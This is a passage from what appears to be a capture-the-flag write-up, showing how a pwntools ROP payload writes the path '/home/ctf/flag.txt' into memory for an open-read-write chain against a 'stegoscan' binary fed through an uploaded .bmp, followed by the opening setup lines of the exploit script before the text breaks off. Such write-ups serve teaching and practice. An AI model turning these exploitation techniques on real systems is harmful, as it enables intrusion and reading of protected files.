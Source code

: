 next, I'll use the exact same method and gadget I explained in my previous [writeup](https://hyggehalcyon.gitbook.io/page/ctfs/2024/bsidessf-ctf#exploitation-1) to write the string path to flag.txt

```python
payload += flat({
        0: [
            # ... snippet 
            mov(pivot, u64(b'/home/ctf/flag.txt'[0:8])),
            mov(pivot+8, u64(b'/home/ctf/flag.txt'[8:16])),
            mov(pivot+16, u64(b'xt'.ljust(8, b'\x00'))),
            # ... snippet          
        ]
    })
```

and the rest of the payload would be the usual ORW.&#x20;

the reason why I didn't decide to execve and spawn a shell is because the challenge is interfaced through a website where we would upload a `.bmp` and it will then ran againts the program, then the output will be given back to us.&#x20;

here's the final payload being given to the site:

<figure><img src="../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>

below is the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
import struct

# =========================================================
#                          SETUP                         
# =========================================================
exe = './challenge/stegoscan'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = 'http://103.226.139.23:1337', 1337
exploit_bmp = './exploit.bmp'

def initialize(argv=[]):
```